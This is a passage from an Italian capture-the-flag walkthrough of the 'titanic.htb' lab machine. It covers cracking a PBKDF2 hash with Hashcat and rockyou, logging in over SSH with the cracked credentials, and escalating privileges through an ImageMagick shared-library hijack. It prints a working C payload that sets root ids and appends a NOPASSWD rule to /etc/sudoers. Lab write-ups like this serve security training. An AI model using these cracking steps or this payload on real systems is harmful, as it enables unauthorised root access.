 ```python
hashcat_format = f"{hash_algo}:{iterations}:{salt_base64}:{hash_base64}"


with open("hash.txt", "w") as f:
    f.write(hashcat_format)
    print("\nRisultato salvato in hash.txt")
```

Eseguendo lo script si genera `hash.txt`. Usiamo quindi Hashcat per crackare la password:

```bash
hashcat -m 10900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Questo produce le credenziali:
- **Username**: `developer`
- **Password**: `2[REDACTED]8`

## 🔑 Accesso SSH
Usando le credenziali crackate, ci connettiamo alla macchina via SSH:

```bash
ssh developer@titanic.htb
```

Dopo il login, localizziamo e leggiamo la flag dell'utente:

```bash
developer@titanic:~$ cat user.txt
105[REDACTED]770
```

## 🚀 Escalation dei Privilegi
Con l'accesso iniziale assicurato, cerchiamo vettori di escalation dei privilegi. Esplorando il filesystem, troviamo uno script in `/opt/scripts` chiamato `identify_images.sh`:

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

Questo script usa il comando `identify` di ImageMagick, che è vulnerabile allo sfruttamento tramite librerie condivise malevole. Creiamo una libreria malevola per escalare i privilegi:

Quindi in `/opt/app/static/assets/images` creiamo il file:

**`a.c`:**
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```
